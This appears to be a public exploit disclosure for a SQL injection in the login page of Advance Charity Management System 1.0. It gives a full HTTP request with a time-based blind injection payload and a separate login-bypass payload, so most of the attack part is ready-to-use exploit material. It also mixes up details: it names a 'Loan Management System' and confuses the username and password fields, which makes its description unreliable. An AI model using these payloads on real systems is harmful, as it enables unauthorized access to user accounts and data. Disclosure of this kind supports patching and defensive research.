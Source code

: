 ## Advance Charity Management System - login.php 'username' SQL inject

#### Advance Charity Management System - login.php 'username' SQL inject

#### Exploit Author: [webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vendor Homepage: https://www.sourcecodester.com/php/16607/advance%C2%A0charity-management-system.html

#### Software Link:https://www.sourcecodester.com/php/16607/advance%C2%A0charity-management-system.html

#### Version: Advance Charity Management System 1.0

#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Loan Management System does not filter the content correctly at the "login.php/username" parameter, resulting in the generation of SQL injection.

#### Payload used:

```POST /login.php HTTP/1.1
POST /login.php HTTP/1.1
Host: 192.168.31.35:8091
Content-Length: 68
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.31.35:8091
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.31.35:8091/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=lkdn1jvj1em9c4j3olu9e2pdpo
Connection: close

username=admin'union select 1,sleep(10),3,4,5#&password=admin&login=
```

#### Proof of Concept

1、Grab the package at the login and find that the login program is in login php

2、Looking at the source code, it is found that the password field is directly brought into the SQL statement query without filtering

 ![image](https://github.com/joinia/webray.com.cn/blob/main/Loan-Management-System/images/sourcecodesql.png)

3、Use payload "sleep (10)" for blind SQL injection.It is found that the time blind injection is successful

 ![image](https://github.com/joinia/webray.com.cn/blob/main/Loan-Management-System/images/sleep10.png)

4、We can also use the universal account and password to log in to the system

payload:`username=123'or '1'='1' --+&password=admin&login=`

 ![image](https://github.com/joinia/webray.com.cn/blob/main/Loan-Management-System/images/universalaccount.png)

SQL injection also exists in the "password" field, so I won't describe it in detail here.
